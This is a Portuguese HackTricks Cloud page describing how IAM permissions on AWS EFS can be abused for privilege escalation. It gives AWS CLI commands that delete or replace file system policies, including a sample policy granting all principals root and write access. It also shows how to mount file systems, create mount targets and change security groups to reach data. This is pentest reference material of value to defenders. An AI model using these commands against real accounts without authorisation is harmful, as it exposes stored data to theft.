 # AWS - EFS Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## EFS

Mais **informações sobre EFS** em:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Lembre-se de que, para montar um EFS, você precisa estar em uma sub-rede onde o EFS está exposto e ter acesso a ele (grupos de segurança). Se isso estiver acontecendo, por padrão, você sempre poderá montá-lo, no entanto, se estiver protegido por políticas IAM, você precisa ter as permissões extras mencionadas aqui para acessá-lo.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Com uma dessas permissões, um atacante pode **alterar a política do sistema de arquivos** para **dar acesso a você**, ou simplesmente **excluí-la** para que o **acesso padrão** seja concedido.

Para excluir a política:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Para alterar isso:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Com essa permissão, um atacante poderá **montar o EFS**. Se a permissão de escrita não for concedida por padrão a todos que podem montar o EFS, ele terá apenas **acesso de leitura**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
As permissões adicionais `elasticfilesystem:ClientRootAccess` e `elasticfilesystem:ClientWrite` podem ser usadas para **escrever** dentro do sistema de arquivos após ele ser montado e para **acessar** esse sistema de arquivos **como root**.

**Impacto Potencial:** Escalação de privilégios indireta ao localizar informações sensíveis no sistema de arquivos.

### `elasticfilesystem:CreateMountTarget`

Se um atacante estiver dentro de uma **sub-rede** onde **nenhum alvo de montagem** do EFS existe, ele poderia simplesmente **criar um em sua sub-rede** com esse privilégio:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Elevação de privilégios indireta ao localizar informações sensíveis no sistema de arquivos.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Em um cenário em que um atacante descobre que o EFS tem um alvo de montagem em sua sub-rede, mas **nenhum grupo de segurança está permitindo o tráfego**, ele poderia simplesmente **alterar isso modificando os grupos de segurança selecionados**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Privesc indireto ao localizar informações sensíveis no sistema de arquivos.



{% hint style="success" %}
Aprenda e pratique Hacking AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
